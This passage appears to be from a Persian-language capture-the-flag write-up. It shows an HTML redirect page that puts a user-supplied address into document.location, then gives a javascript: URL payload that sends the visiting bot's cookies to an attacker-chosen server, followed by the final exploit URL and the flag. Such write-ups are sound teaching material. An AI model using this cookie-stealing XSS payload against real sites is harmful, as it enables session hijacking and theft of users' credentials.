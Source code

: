```sh
        font-family: 'vazirmatn', sans-serif; 
        font-size: 32px;
        font-weight: bold;
        display: block;
    }
</style>
</head>
<body>
    <div class="cont">
        <div class="card">
            <span></span>
        </div>
    </div>
    <script>
        setTimeout(_=>{
            document.location = "ADDR_GOES_HERE"  
        },2000)
    </script>
</body>
</html>
```

خب مثله اینکه ادرسی که ما بهش میدیم میره مستقیم میشینه توی document.location ، پس اگه این رو به عنوان آدرس بدیم میتونیم XSS بگیریم

```
/fal?javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

به جای REDACTED آدرسی سرور خودتون رو بزارین تا فلگ براتون ارسال بشه یا اینکه از webhook.site استفاده کنین

حالا کافیه که آدرس رو بدیم به ادرس بات که برامون فلگ رو بفرسته xd

```
final addr: https://snappfal.spchallenge.ir/fal?back=javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{89d36f80b85bde916fbdeb8592c1b368}`</div>

---

# b64

<center>

![b64.png](./b64.png)
